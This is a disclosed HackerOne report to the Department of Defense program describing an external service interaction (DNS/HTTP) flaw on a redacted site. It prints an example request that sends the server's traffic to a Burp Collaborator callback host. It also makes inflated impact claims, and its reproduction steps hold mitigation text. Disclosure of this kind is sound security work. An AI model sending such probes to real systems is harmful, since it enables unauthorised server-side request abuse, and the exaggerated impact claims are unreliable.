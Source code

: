 # External service interaction ( DNS and HTTP ) in www.████████

## Report Details
- **Report ID**: 1704024
- **URL**: https://hackerone.com/reports/1704024
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-09-19T00:13:29.558Z
- **Disclosed**: 2023-06-23T18:19:31.618Z

## Reporter
- **Username**: 0xmzm
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
There is External service interaction ( DNS and HTTP ) vulnerability in www.█████████

Here is an example request :
```
GET http://9eoecirvai3o4lsdrpqzvyia71dr1g.oastify.com/ HTTP/1.1
Host: www.██████
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.██████/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```
And the Burp Collaborator recived this information :
DNS request recived from : ████████
HTTP request recived from : ███

███
█████████

## Impact

The External Service Interaction arise when it is possible for a attacker to induce application to interact with the arbitrary external service such as DNS HTTP etc.
The External Service Interaction can is not limited to HTTP,HTTPS or DNS, you can lead to FTP, SMTP etc. Such weakness can lead to DDoS attack.
The External Service Interaction can lead to OS Command Injection, DOS Attack, DDOS Attack or Code Manipulation.

## System Host(s)
www.████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Use whitelist check, boundary based validation and sanitization.
Maintain whitelist at network and web front.
Review Source Code for functions such as dns.resolve() , dns.query() , sys_exec() etc.

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
